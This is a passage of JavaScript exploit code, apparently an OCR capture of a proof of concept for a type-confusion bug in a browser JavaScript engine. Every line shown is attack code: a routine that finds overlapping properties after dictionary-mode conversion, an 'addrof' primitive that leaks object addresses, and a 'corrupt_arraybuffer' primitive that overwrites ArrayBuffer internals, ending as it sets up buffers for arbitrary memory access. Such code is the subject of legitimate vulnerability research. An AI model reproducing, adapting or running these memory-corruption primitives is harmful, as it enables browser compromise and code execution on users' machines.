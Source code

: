 ```html
                let propertyValues = [];
                for (let i = 1; i < NUM_PROPERTIES; i++) {
                    propertyValues[i] = -i;
                }
                for (let i = 0; i < MAX_ITERATIONS; i++) {
                    let r = vuln(make(propertyValues));
                    if (r[1] !== -1) {
                        for (let i = 1; i < r.length; i++) {
                            if (i !== -r[i] && r[i] < 0 && r[i] > -NUM_PROPERTIES) {
                                return [i, -r[i]];
                            }
                        }
                    }
                }
                fail("Failed to find overlapping properties");
            }
            function addrof(obj) {
                eval(`
                    function vuln(o) {
                        let a = o.inline;
                        this.Object.create(o);
                        return o.p${p1}.x1;
                    }
                `);
                let propertyValues = [];
                propertyValues[p1] = {x1: 13.37, x2: 13.38};
                propertyValues[p2] = {y1: obj};
                let i = 0;
                for (; i < MAX_ITERATIONS; i++) {
                    let res = vuln(make(propertyValues));
                    if (res !== 13.37)
                        return res.toBigInt()
                }
                fail("Addrof failed");
            }
            function corrupt_arraybuffer(victim, newValue) {
                eval(`
                    function vuln(o) {
                        let a = o.inline;
                        this.Object.create(o);
                        let orig = o.p${p1}.x2;
                        o.p${p1}.x2 = ${newValue.toNumber()};
                        return orig;
                    }
                `);
                let propertyValues = [];
                let o = {x1: 13.37, x2: 13.38};
                propertyValues[p1] = o;
                propertyValues[p2] = victim;
                for (let i = 0; i < MAX_ITERATIONS; i++) {
                    o.x2 = 13.38;
                    let r = vuln(make(propertyValues));
                    if (r !== 13.38)
                        return r.toBigInt();
                }
                fail("Corrupt ArrayBuffer failed");
            }
            let [p1, p2] = find_overlapping_properties();
            log(`[+] Properties p${p1} and p${p2} overlap after conversion to dictionary mode`);
            let memview_buf = new ArrayBuffer(1024);
            let driver_buf = new ArrayBuffer(1024);
            gc();
            let memview_buf_addr = addrof(memview_buf);
```